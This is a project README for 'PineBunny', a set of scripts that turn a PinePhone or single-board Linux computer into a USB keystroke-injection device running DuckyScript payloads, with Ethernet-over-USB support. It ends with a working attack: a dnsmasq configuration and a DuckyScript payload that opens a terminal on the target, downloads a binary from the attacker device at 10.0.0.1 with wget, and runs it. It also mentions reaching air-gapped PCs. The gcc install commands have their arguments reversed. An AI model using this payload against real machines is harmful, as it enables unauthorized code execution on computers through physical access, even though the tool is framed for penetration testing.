 # PineBunny

# An attempt to implement something similar to what a Bash Bunny does on the PinePhone (Pro)

This is a recollection of scripts to enable the virtual /dev/hidg0 device on USBGadget enabled kernels and perform keystroke injection attacks emulating a keyboard. This tool is mostly useful in penetration testing assesments and engagements and the ideal devices to use this with would be any kind of Raspberry Pi model/any single board linux computer for that matter, and the PinePhone (Pro) or any other linux phone with a compatible kernel.
Even though those devices are the best ones to use, the tool should work on any device as long as it has USBGadget enabled.


# ¿How to check if my kernel is compatible?

To see if your kernel was compiled with USBGadget enabled, you can typically check the file "/proc/config.gz" to see your current kernel configuration.
Do `gunzip -c /proc/config.gz | grep CONFIG_USB_GADGET=` and check if it ends in `y`. If not you'll have to recompile the kernel yourself and enable it; which is beyond the scope of this repository.


# Installation

To install the scripts clone the repository first and cd into it, and then simply compile usleep and hid-gadget-test:
`gcc -o hid-gadget-test.c hid-gadget-test`
`gcc -o usleep.c usleep`
Then, you can simply remove the .c files and copy those along with the pinebunny and usbarsenal binaries to /usr/local/bin.
Everytime you run the 'pinebunny' script you'll have to choose the layout you want to use. BUT, if you only need to use one of them and don't want to be entering everytime you use the tool, you can hardcode it in and it won't ask you again unless you change it back. Just simply edit pinebunny at the beginning of the file from something like this:

```
#!/bin/bash

defdelay=0
kb="/dev/hidg0 keyboard"

last_cmd=""
last_string=""
line_num=0
layout=""	#Enter the name of the layout here [us, es, it]
choose=true	#Change this to false and hardcode a layout before if you only plan on using 1 keyboard distribution
```
To something like this:

```
layout="us"	#Enter the name of the layout here [us, es, it]
choose=false	#Change this to false and hardcode a layout before if you only plan on using 1 keyboard distribution
```

Only us ,es and it layouts are supported right now, I'll work on more layouts when I get the time.


# Usage

The badusb script uses conventional Duckyscript, and its usage is:

`sudo usbarsenal` You need to enable /dev/hidg0 first, tho usbarsenal also has options for enabling ECM or RNDIS tethering and Mass Storage (you need to specify the loop device to use), so you'll have ethernet over USB, too. Just keep in mind that your target won't get an IP address automatically assigned without a proper dhcp server running. I personally like to use dnsmasq)
`sudo pinebunny duckypayload.txt`

# UPDATE

Now you can execute bash commands in any part of the duckyscript payload just as you would do so on a Bash Bunny! The difference being that the Bash Bunny payloads run bash commands like normal and it uses `Q STRING somethinghere` to specify the next thing is just duckyscript, and here it's backwards. By default everything is duckyscript and you specify a bash command like this: `BASH somecommandhere`.

Only limitation of running bash commands like this is that it will wait until that command finishes (with or without errors) before executing the next intruction of the payload, so some commands that execute forever until you stop them will freeze the rest of the payload from executing. There's an easy fix for that though, and that's to run that command as a background process like: `BASH someinfinitecommandhere &`, and then just disowning the process and moving on with life: `BASH disown %`. After that the process will run in the background and the rest of the payload will continue.

Enjoy using bash commands to do crazy stuff to your heart's content ^_^


# Example payload using HID + Ethernet

`usbarsenal` can enable Ethernet over USB, and that can be used for different kinds of attacks. The only thing you have to keep in mind is that you need to manually assign an IP address to the usb0 interface, as well as a netmask and you also need a proper dhcp and dns server (like dnsmasq) so that the target machine gets assigned an IP address automatically.

Let's say we have a file we want the target to download and execute, a file hosted on the PinePhone itself (like `python -m http.server` for example).
We'll need to prepare the usb0 interface and a dhcp server so the computer gets an IP assigned: `sudo usbarsenal`, `sudo ifconfig usb0 up 10.66.0.1 netmask 255.255.255.0`. Then, the dhcp server with this `dnsmasq.conf` configuration:

```
interface=usb0
dhcp-range=10.0.0.2, 10.0.0.30, 255.255.255.0, 12h
dhcp-option=3, 10.0.0.1
dhcp-option=6, 10.0.0.1 
server=8.8.8.8
log-queries
log-dhcp 
listen-address=127.0.0.1
```
`sudo dnsmasq -C dnsmasq.conf -d` We leave that running or we add it to the payload itself 

```
BASH dnsmasq -C dnsmasq.conf -d
BASH disown %
``` 
and we also leave the web server running: `python -m http.server` (or add it to the payload as well as above). Now it should work. Our example payload file looks like this, and it is aimed at a regular linux desktop:

```
DELAY 2000
ALT F2
DELAY 500
STRING xfce4-terminal
ENTER
DELAY 1000
STRING wget http://10.0.0.1:8000/hello
ENTER
DELAY 400
STRING chmod +x ./hello
ENTER
DELAY 100
STRING ./hello
ENTER
```
`sudo pinebunny payload.txt`

Remember, ethernet over USB can give you physical network access to a computer, which means you could hack an airgapped PC too!
Moreover, you are not forced to use a Duckyscript payload, you could just ignore that and launch a nmap scan physically connected over USB!
The options are endless...
